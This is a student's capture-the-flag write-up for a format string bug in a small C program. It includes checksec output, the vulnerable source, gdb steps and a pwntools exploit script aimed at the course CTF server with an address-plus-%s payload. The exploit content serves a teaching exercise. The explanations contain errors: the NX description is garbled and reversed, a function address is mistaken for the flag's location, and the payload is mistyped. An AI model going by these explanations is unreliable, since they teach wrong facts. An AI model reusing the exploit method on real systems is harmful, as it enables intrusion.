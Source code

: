 # CTF Challenge 1

## Description

A Zip file is provided, that contains an executable (**<span style="color:salmon">program</span>**) and source code (**<span style="color:salmon">main.c</span>**). The flag is found in the file **<span style="color:salmon">file.txt</span>** that is read by the program. (The flag in the Zip is a dummy, the valid one can be found in the server...) Besides this, a script file is provided to aid in the development of the exploit, with some explanations on how to use along with gdb.

### Tasks

- You should start by running **<span style="color:salmon">checksec</span>**. Contrary to last time, this program has some active protections. You should figure out what these are and what attacks are possible.




## Solution

#### Runnning

> checksec --file=program --output=json | jq

`make sure checksec and jq are installed`
#### Output:

```json
{
  "program": {
    "relro": "partial",
    "canary": "yes",
    "nx": "yes",
    "pie": "no",
    "rpath": "no",
    "runpath": "no",
    "symbols": "yes",
    "fortify_source": "yes",
    "fortified": "0",
    "fortify-able": "2"
  }
}
```
#### Meaning:

- RELRO is partially enable, so this security property makes the GOT within the binary read-only, preventing some form of relocation attacks.
- Canary found, so there are values placed between a buffer and control data on the stack to monitor buffer overflows.
- No PIE, so no position-independent executable meaning that there is no code place somewhere in the memory for execution regardless of its absolute address.
- NX enabled, there's not a mark in certain areas of memory as non-executable, so that can't prevent buffer-overflow exploits

- Because of NO PIE we may be able to perform a string format in case of a **scanf** present in the main code.

#### Main Code:

```c
#include <stdio.h>
#include <stdlib.h>

#define FLAG_BUFFER_SIZE 40

char flag[FLAG_BUFFER_SIZE];

void load_flag(){
    FILE *fd = fopen("flag.txt","r");

    if(fd != NULL) {
        fgets(flag, FLAG_BUFFER_SIZE, fd);
    }
}

int main() {

    load_flag();
   
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer);

    if(0) {
        printf("I like what you got!\n%s\n", flag);
    } else {
        printf("\nDisqualified!\n");
    }
    fflush(stdout);
    
    
    return 0;
}
```

### Vulnerabilities

> scanf("%32s", &buffer);
- Since this exist we can input our string.

> load_flag();
- This function opens the file **"flag.txt"** in read mode, so if we can run it, we might be able to read its content and get the flag

### Exploit Procedure

##### We run:

> gdb program

- After we can find where flag is and since PIE is off, its address won't change when accessed again:

> gdb-peda$ p load_flag

- Using the function shown in main.c we get the following output:

> $1 = {void ()} 0x8049256 <load_flag>

Telling us that the flag is stored in 0x8049256, so that's the address we want to exploit. In the file *exploit_example.py* we have:

```python
from pwn import *

LOCAL = True

if LOCAL:
    p = process("./program")
    """
    pause() stops the script allows for the use of gdb to attach to process
    In order to attach to the process you have to obtain the pid of the proccess through the output of this program.
    (Exemple: Starting local process './program': pid 9717 - O pid would be 9717) 
    Then run gdb in order to give attach
    (Exemple: `$ gdb attach 9717` )
    Attaching to the process, the gdb, the program stops at the instruction that was running.
    To continue the execution of the program you should send the command "continue" e in gdb and press enter on the script of the exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"oi")
p.interactive()
```

- Now in the p.sendline() we inject our desired address:
> p.sendline("x56\x92\x04\x08-%s")

- All that's left to do is execute the **exploit_example.py** in order to obtain the flag. 

> python3 exploit_example.py

`make sure pwntools library is installed`


